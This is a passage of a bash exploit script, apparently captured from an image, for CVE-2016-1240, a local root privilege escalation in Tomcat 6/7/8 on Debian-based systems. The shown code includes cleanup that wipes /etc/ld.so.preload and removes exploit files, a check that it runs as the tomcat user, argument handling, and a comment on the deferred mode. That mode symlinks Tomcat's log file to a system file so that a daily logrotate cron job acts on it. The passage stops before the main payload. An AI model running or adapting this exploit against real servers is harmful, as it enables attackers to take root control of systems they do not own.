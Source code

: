    echo -e "\n[+] Cleaning up..."
    rm -f $PRIVESCSRC
    rm -f $PRIVESCLIB
    rm -f $TOMCATLOG
    touch $TOMCATLOG
    if [ -f /etc/ld.so.preload ]; then
        echo -n > /etc/ld.so.preload 2>/dev/null
    fi
    echo -e "\n[+] Job done. Exiting with code $1 \n"
    exit $1
}
 
function ctrl_c() {
        echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
    cleanexit 0
}
 
#intro 
echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"
 
# Args
if [ $# -lt 1 ]; then
    echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
    exit 3
fi
if [ "$2" = "-deferred" ]; then
    mode="deferred"
else
    mode="active"
fi
 
# Priv check
echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
id | grep -q tomcat
if [ $? -ne 0 ]; then
    echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
    exit 3
fi
 
# Set target paths
TOMCATLOG="$1"
if [ ! -f $TOMCATLOG ]; then
    echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
    exit 3
fi
echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"
 
# [ Deferred exploitation ]
 
# Symlink the log file to /etc/default/locale file which gets executed daily on default
# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.

[1]: http://ojyzyrhpd.bkt.clouddn.com/20161012/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20161012/2.png